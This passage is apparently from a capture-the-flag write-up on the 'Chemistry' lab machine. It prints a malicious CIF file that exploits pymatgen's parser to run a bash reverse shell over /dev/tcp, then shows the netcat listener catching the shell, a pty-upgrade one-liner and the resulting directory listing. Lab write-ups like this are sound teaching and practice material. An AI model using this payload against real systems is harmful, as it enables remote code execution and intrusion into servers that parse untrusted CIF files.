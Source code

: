 Lo and behold, there is an exploit for it, so I snatch the code, slap in my IP and port, set up a listener.


```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/<IP>/<Port> 0>&1'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

```bash
┌──(kali㉿kali)-[~/Desktop/Chemistry]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.135] from (UNKNOWN) [10.10.11.38] 52340
sh: 0: can't access tty; job control turned off
$ 
```

I'm in.
And im also not in a TTY which sucks, so i fix that with this 1 liner, which atp I should just memorise

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Currently in my directory there are:
```bash
drwxr-xr-x 8 app  app  4096 Mar 14 15:01 .
drwxr-xr-x 4 root root 4096 Jun 16  2024 ..
-rw------- 1 app  app  5852 Oct  9 20:08 app.py
lrwxrwxrwx 1 root root    9 Jun 17  2024 .bash_history -> /dev/null
-rw-r--r-- 1 app  app   220 Jun 15  2024 .bash_logout
-rw-r--r-- 1 app  app  3771 Jun 15  2024 .bashrc
drwxrwxr-x 3 app  app  4096 Jun 17  2024 .cache
-rw-r--r-- 1 app  app     0 Mar 14 15:01 database.db
drwx------ 2 app  app  4096 Mar 14 17:09 instance
drwx------ 7 app  app  4096 Jun 15  2024 .local
-rw-r--r-- 1 app  app   807 Jun 15  2024 .profile
lrwxrwxrwx 1 root root    9 Jun 17  2024 .sqlite_history -> /dev/null
drwx------ 2 app  app  4096 Oct  9 20:13 static
drwx------ 2 app  app  4096 Oct  9 20:18 templates
drwx------ 2 app  app  4096 Mar 14 17:09 uploads
```
